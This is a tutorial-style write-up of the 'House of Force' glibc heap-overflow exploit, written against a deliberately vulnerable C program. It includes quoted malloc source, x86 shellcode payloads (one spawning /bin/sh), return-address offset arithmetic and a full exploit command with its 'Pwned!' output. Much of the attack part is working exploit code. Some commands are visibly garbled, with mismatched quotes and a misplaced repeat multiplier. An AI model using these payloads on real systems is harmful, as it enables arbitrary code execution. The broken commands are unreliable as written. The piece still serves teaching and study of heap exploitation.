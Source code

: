 原文 by [gbmaster](https://gbmaster.wordpress.com)  

Ingredients:

* The exploiter must be able to overwrite the top chunk (i.e. the overflow must happen in a chunk that allows to overwrite the wilderness
* There is a malloc() call with an exploiter-controllable size
* There is another malloc() call where data are controlled by the exploiter

As you can see from the recipe, this technique is strongly based on the top chunk (a.k.a. the wilderness): as you can remember from the first article on heap overflows, the top chunk is a very peculiar one. It looks like a normal chunk, with its header followed by the data section, but, on the other side, it’s at the end of the heap and it’s the only chunk that can be extended or shortened. So, no matter what happens, the top chunk MUST always exist and that’s why it’s treated differently both by malloc() and free() (and can’t be passed as argument to free()).   

I took blackngel’s original example and slightly modified it.  
``` c
 /*
 * blackngel's original example slightly modified
 */
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void fvuln(unsigned long len, char *str, char *buf)
{
  char *ptr1, *ptr2, *ptr3;

  ptr1 = malloc(256);
  printf("PTR1 = [ %p ]\n", ptr1);
  strcpy(ptr1, str);

  printf("Allocated MEM: %lu bytes\n", len);
  ptr2 = malloc(len);
  ptr3 = malloc(256);

  strcpy(ptr3, buf);
}

int main(int argc, char *argv[])
{
  char *pEnd;
  if (argc == 4)
    fvuln(strtoull(argv[1], &pEnd, 10), argv[2], argv[3]);

  return 0;
}
```
So, the core of this technique is to overwrite av->top with an arbitrary value: in fact, once the attacker has the control over this value, if he can force a call to malloc() which uses the top chunk, he can control where the next chunk will be allocated and be able to write arbitrary bytes to any address.  

By keeping the 2.3.5 version of the malloc() implementation in mind, let’s see how it’s possible to perform the first step of this attack: overwriting av->top. At lines #3845 and #[4151](https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=e3ccbde7b5b84affbf6ff2387a5151310235f0a3;hb=1afdd17390f6febdfe559e16dfc5c5718f8934aa#l4151), there is the following code:   
``` c
 Void_t*
_int_malloc(mstate av, size_t bytes)
{
  INTERNAL_SIZE_T nb;               /* normalized request size */

[...]

  mchunkptr       victim;           /* inspected/selected chunk */
  INTERNAL_SIZE_T size;             /* its size */
  int             victim_index;     /* its bin index */

  mchunkptr       remainder;        /* remainder from a split */
  unsigned long   remainder_size;   /* its size */

[...]

  checked_request2size(bytes, nb);

[...]

  use_top:
    /*
      If large enough, split off the chunk bordering the end of memory
      (held in av->top). Note that this is in accord with the best-fit
      search rule.  In effect, av->top is treated as larger (and thus
      less well fitting) than any other available chunk since it can
      be extended to be as large as necessary (up to system
      limitations).

      We require that av->top always exists (i.e., has size >=
      MINSIZE) after initialization, so if it would otherwise be
      exhuasted by current request, it is replenished. (The main
      reason for ensuring it exists is that we may need MINSIZE space
      to put in fenceposts in sysmalloc.)
    */

    victim = av->top;
    size = chunksize(victim);

    if ((unsigned long)(size) >= (unsigned long)(nb + MINSIZE)) {
      remainder_size = size - nb;
      remainder = chunk_at_offset(victim, nb);
      av->top = remainder;
      set_head(victim, nb | PREV_INUSE |
        (av != &main_arena ? NON_MAIN_ARENA : 0));
      set_head(remainder, remainder_size | PREV_INUSE);

      check_malloced_chunk(av, victim, nb);
      return chunk2mem(victim);
    }

[...]
```
In the Malloc Maleficarum it is written that the wilderness chunk should have the highest size possible (preferably 0xFFFFFFFF). As the overflowing chunk is 256 bytes long, filling it with 264 “\xFF” characters will make it happen. Doing this has the nice consequence of handling any other large memory request inside the malloc() itself, instead of requesting an heap expansion.  

When malloc(len) will be called, the new wilderness’ location will be computed by adding the normalized requested size to the old location of the top chunk by using the chunk_at_offset macro. Once this value is computed, av->top is set to it. The important thing is to let this value to point to an area under the exploiter’s control (may be the stack, or a .got/.dtors entry, or whatever). Truth be told, this value must be 8 bytes before the target area.  

Once this is done, the pointer returned from the next malloc call will return the aforementioned value + 8 bytes (prev_size + size). This means that ptr3 will point directly to the stack or to the entry the exploiter chose or wherever desired. So, in this case, with a simple strcpy, the attacker can overwrite these interesting areas of memory.  

Years have passed by, but this bug has never been fixed in glibc: this means, that it’s time to test it on my glibc 2.20 linux box. As in the “House of Mind” post, I had to disable ASLR and to set the noexec kernel paramater to OFF. As my phylosophy has always been to disable the less possible, RELRO stays on and we won’t be able to overwrite any entry: stack time! (OK, I know that full RELRO is not on by default on gcc, so I could actually overwrite a .got entry, but anyway…)  

So, the first step is to “cook” the second application argument (argv[2]) in such a way that it overwrites the wilderness size. This is actually pretty simple, as a simple Python command can do the trick. As the whole task is performed only by the last four bytes of the string (which are set to “\xFF”), we have 256 bytes to store the shellcode.  
```
python -c 'import sys; sys.stdout.write("\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\x04\x05\x04\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xFF" * (264 - 36))'
```
The next step is to understand which value is going to replace the returning address. But that’s, of course, ptr1‘s address (as that’s where our shellcode is). This address is printed by the code itself: Python will do the trick again.  

 `python -c 'import sys; sys.stdout.write("\x08\xB0\x04\x08`  
The last step is the trickiest one, as we need to compute the value that it’s going to be added to av->top in order to have the pushed-EIP (- 8) address as result. So, on my system, EIP was pushed at 0xFFFFCE5C and the wilderness was originally located at 0x0804B108. So, we need to compute  

`0xFFFFCE5C – 0x8 – 0x0804B108 = 0xF7FB1D4C = 4160429388`  

OK, so, we know now that nb must be equal to 4160429388. Due to the alignment that checked_request2size performs, the closest I could get to this value was 4160429384. Mmm… This means that I’m going to be 4 bytes before the returning address and that we need to change the last Python command. Anyway, in order to have 4160429388 as normalized value, I succeeded by using 4160429373.  

The previous Python command, so, becomes:  

 `python -c 'import sys; sys.stdout.write("A + "\x08\xB0\x04\x08")'`  
I know, we’re going to overwrite some variable’s value, but, at least in this scenario, it’s not that important. So, in the real end, the whole thing reduces to:  
```
 $ ./hof 4160429373 $(python -c 'import sys; sys.stdout.write("\xeb\x17\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x50\x77\x6e\x65\x64\x21\xFF" * (264 - 36))') $(python -c 'import sys; sys.stdout.write("A + "\x08\xB0\x04\x08")')
PTR1 = [ 0x804b008 ]
Allocated MEM: 4160429373 bytes
Pwned!$
```
There you have it!  